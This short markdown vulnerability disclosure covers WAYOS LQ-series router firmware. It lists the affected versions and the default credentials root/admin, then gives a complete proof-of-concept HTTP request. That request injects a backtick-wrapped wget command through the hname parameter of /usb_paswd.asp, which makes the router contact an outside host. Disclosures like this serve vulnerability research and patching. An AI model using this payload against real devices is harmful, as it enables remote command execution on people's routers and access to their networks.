


**brand**：WAYOS

**The firmware link：**http://www.wayos.com/products/LQ09.html     08 07 06 05 04

**versions：**

LQ_09-22.03.17V
LQ_08_A2-22.03.17V
LQ_07_A2-22.03.17V
LQ_06_A2-22.03.17V
LQ_05_A2-22.03.17V
LQ_04-22.03.17V

**details：**




**exploit：**

You can emulate firmware or use a real device

The default account password is root/admin

```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0

Accept: application/json, text/javascript, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```




